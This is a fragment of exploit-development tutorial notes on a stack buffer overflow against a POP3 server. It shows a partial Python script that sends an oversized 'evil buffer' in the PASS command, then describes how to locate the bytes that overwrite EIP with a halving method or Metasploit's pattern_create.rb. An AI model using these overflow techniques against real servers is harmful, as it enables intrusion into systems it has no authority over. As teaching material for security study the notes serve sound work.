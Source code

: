 try:

>   print "\\nSending evil buffer..."

>   s.connect(('10.0.0.22',110))

>   data = s.recv(1024)

>   s.send('USER username' +'\\r\\n')

>   data = s.recv(1024)

>   s.send('PASS ' + buffer + '\\r\\n')

>   print "\\nDone!."

except:

print "Could not connect to POP3!"

控制EIP寄存器:

1.Binary Tree Analysis

Instead of 2700 A’s, we send 1350 A's and 1350 B's. If EIP is overwritten by
B's, we know

the four bytes reside in the second half of the buffer. We then change the 1350
B's to 675

B's and 675 C's, and send the buffer again. If EIP is overwritten by C's, we
know that the

four bytes reside in the 2000–2700 byte range. We continue splitting the
specific buffer

until we reach the exact four bytes that overwrite EIP. Mathematically, this
should

happen in seven iterations.

2.Sending a Unique String

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb

![](media/251229360a37397f88507e166093173f.png)
